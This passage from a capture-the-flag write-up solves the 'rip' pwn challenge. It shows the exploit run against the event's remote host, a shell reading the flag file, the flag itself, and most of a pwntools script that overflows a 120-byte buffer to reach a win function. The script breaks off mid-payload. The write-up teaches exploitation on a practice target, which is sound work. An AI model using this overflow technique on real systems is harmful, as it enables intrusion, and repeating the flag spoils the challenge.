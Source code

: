 It works! 🎉


## Running The Final Exploit On The Remote Target

```bash
$ python solve.py
[+] Opening connection to io.ept.gg on port 30009: Done
[*] Switching to interactive mode
nope.
$ cat /opt/flag
EPT{9d840114cd3b18dd688716093a7ddde8}$
$
```

## 🚩 Flag

I learned a lot from this one and got the flag in the end!

```
EPT{9d840114cd3b18dd688716093a7ddde8}
```

## Full `solve.py` Script

In the final script we use `pwntools` to easily find the `ret`-gadget for us:

```python
from pwn import *

context.arch = 'amd64'
# context.log_level = 'debug'

# Local / remote flags
LOCAL = False
GDB = False
PROCESS = 'rip'
REMOTE_HOST = "io.ept.gg"
REMOTE_PORT = 30009

# Start the process or open a remote connection
if (LOCAL):
    io = process(PROCESS)
else:
    io = connect(REMOTE_HOST, REMOTE_PORT)

# gdb debugging and script
if (LOCAL and GDB):
    gdbscript = '''
    '''
    pid = gdb.attach(io, gdbscript=gdbscript)

# load the ELF-object to easily lookup symbols
elf = ELF(PROCESS)
addr_win = elf.symbols['win']
# print(f"{addr_win:X}")

# load ROP-gadgets
rop = ROP(PROCESS)

offset = 120

payload = b"".join([
    b'A' * offset,
    # extra ret-instruction for `MOVAPS` issue on Ubuntu
```